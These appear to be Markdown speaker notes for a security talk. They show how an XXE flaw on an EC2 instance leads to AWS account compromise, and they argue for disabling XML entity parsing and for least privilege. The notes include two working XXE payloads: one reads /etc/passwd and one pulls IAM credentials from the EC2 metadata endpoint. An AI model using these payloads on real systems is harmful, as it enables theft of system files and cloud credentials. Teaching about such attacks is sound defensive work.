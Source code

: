 # XXE and AWS Compromise

## Outcomes
* People know about XXE
	* And hopefully disable XML entity parsing everywhere
* People know about AWS Metadata endpoint
	* Because it's kinda neat

## Intro
* Ask for show of hands, who knows about
	* XML Entities
	* AWS Metadata endpoint

## Background
* There's an EC2 instance parsing XML
* It is getting pentested

## XML Entities
slide is the example payload below
* Quickly explain XML Entities
* _Pentester notices XML files getting parsed_
	* Tries to steal `/etc/passwd` with XXE
	* Pentest finding: ![medium](./assets/vuln1.png)

**Example payload:**
```xml
 <?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///etc/passwd" >
 ]>
 
 <foo>&xxe;</foo>
```

## AWS Metadata
slide is a recording of `curl 169.254 ...` in an EC2 box
* Quickly explain AWS Metadata endpoint
* Add in the fact that XXE can do HTTP requests
* _Pentester notices server is running in EC2_
	* Uses XXE to get iam role --> `iam/info` 
	* Uses XXE to get creds --> `iam/security-credentials/<role-name>`
	* Pentest finding: ![high](./assets/vuln2.png)

**Example payload:**
```
 <?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/iam-role" >
 ]>
 
 <foo>&xxe;</foo>
```

## AWS Account Compromise
* Pentester is able to do lots of things with the AWS creds
	* Uses the temporary creds to steal all the data
	* Pentest finding: ![critical](./assets/vuln3.png)

<!-- TODO record AWS metadata demo -->

## Summary
* If you're parsing XML ![stop it](https://media.giphy.com/media/l4Ki2obCyAQS5WhFe/giphy.gif)
* Also limit access from your EC2 instances
	* Principle of least privilege

## Notes
* Most of the content is from this [Netflix blog post](https://medium.com/netflix-techblog/netflix-information-security-preventing-credential-compromise-in-aws-41b112c15179)